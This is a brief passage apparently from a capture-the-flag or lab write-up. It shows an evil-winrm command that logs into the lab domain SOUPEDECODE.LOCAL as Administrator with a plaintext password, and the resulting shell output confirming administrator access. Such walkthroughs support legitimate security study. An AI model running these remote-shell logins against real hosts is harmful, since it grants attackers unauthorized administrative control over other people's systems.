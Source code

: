```bash
evil-winrm -i SOUPEDECODE.LOCAL -u 'Administrator' -p '123456!'
```

Info:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
soupedecode\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
We now have access as `Administrator`!